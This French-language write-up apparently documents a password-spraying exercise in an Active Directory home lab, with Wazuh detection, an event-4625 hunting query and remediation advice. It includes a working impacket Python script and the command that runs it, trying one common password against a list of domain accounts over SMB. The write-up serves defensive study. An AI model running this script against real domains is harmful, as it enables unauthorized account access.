

# ⚔️ Attaque 05 — Password Spraying

| | |
|---|---|
| **Catégorie** | Credential Access |
| **MITRE ATT&CK** | [T1110.003](https://attack.mitre.org/techniques/T1110/003/) |
| **Fiche théorique** | [`../../docs/02-credential-access/11-password-spraying.md`](../../docs/02-credential-access/11-password-spraying.md) |
| **Cible** | `north.sevenkingdoms.local` (DC02 / winterfell · 192.168.56.11) |
| **Compte attaquant** | *aucun* (juste une liste de noms d'utilisateurs) |
| **Outil** | impacket (`SMBConnection`) |
| **Statut détection Wazuh** | ✅ **Détecté** (rafale de `4625`) |

---

## 1. 🧠 Description
- **Brute force classique** = essayer beaucoup de mots de passe sur **UN** compte → **verrouille** le compte (lockout) et se voit.
- **Password Spraying** = essayer **UN seul** mot de passe (courant) sur **BEAUCOUP** de comptes → chaque compte ne reçoit qu'**1 tentative** → **pas de lockout**, et il suffit qu'**un** utilisateur ait un mot de passe faible pour gagner.

> Analogie 🔑 : au lieu d'essayer 1000 clés sur une porte, on essaie **la même clé** sur 1000 portes.

## 2. 🎯 Prérequis
- Une **liste de noms d'utilisateurs** valides (obtenue par énumération). **Aucun mot de passe requis** au départ.
- Accès réseau SMB au contrôleur de domaine (port 445).

## 3. 💻 Exécution
> L'outil habituel est **netexec (`nxc`)**, mais son installation a échoué sur la VM (dépendance `aardwolf` nécessitant Rust). On obtient le même résultat avec un petit script **impacket** (déjà installé), qui tente une connexion SMB par compte :

```python
# spray.py — teste UN mot de passe sur une liste de comptes
from impacket.smbconnection import SMBConnection
DC="192.168.56.11"; DOMAIN="north.sevenkingdoms.local"; PWD="Spring2024!"
users=[l.strip() for l in open("/home/goad/users.txt") if l.strip()]
for u in users:
    try:
        c=SMBConnection(DC,DC,timeout=5); c.login(u,PWD,DOMAIN)
        print(f"[+] {u} : SUCCESS"); c.logoff()
    except Exception:
        print(f"[-] {u} : echec")
```
Lancé avec le Python d'impacket :
```bash
IMPACKET_PY=$(find ~/.local/share/pipx/venvs/impacket -name python | head -1)
$IMPACKET_PY ~/spray.py
```


## 4. 📤 Résultat
Le mot de passe `Spring2024!` testé sur **12 comptes** → **12 échecs**, **sans verrouiller** aucun compte (1 seule tentative par compte). *(Un mot de passe faible bien choisi aurait pu donner un `SUCCESS`.)*

## 5. 🛡️ Détection dans Wazuh — ✅ DÉTECTÉ
**Recherche (Threat Hunting → Events) :**
```
data.win.system.eventID:4625
```
**Event Windows concerné :** `4625` (*An account failed to log on*).

**Résultat : 12 hits** — la **rafale d'échecs** est clairement visible, avec la **signature du spray** :
- **même IP source** `192.168.56.1` (la machine d'attaque)
- **même instant** (~1 seconde), **12 comptes différents**
- `subStatus: 0xc000006a` = **mauvais mot de passe** · `authenticationPackageName: NTLM`

Contrairement aux attaques précédentes, l'Event `4625` **est audité par défaut** et Wazuh dispose de règles brute-force → **l'attaque est visible.**



## 6. 🎓 Analyse & leçon
> **Le contraste clé du projet.** Certaines attaques (spray) sont **détectées d'office** car leurs événements sont audités et couverts par des règles ; d'autres (DCSync, AS-REP) sont des **angles morts** faute d'audit. → La **Phase 5** doit combler ces trous, sans casser ce qui marche déjà.

| Attaque | Détection par défaut |
|---------|----------------------|
| Password Spraying | ✅ vue (rafale de 4625) |
| Kerberoasting | 🟡 partielle |
| AS-REP / DCSync | 🔴 angle mort |

## 7. 🔧 Remédiation
- **Politique de mots de passe forte** + **verrouillage** (lockout) bien configuré.
- **MFA** sur les comptes sensibles.
- Surveiller les **rafales de 4625** depuis une même source sur plusieurs comptes (déjà couvert par les règles brute-force de Wazuh).

---

⬅️ Retour à l'[index des attaques](../03-attaques.md)
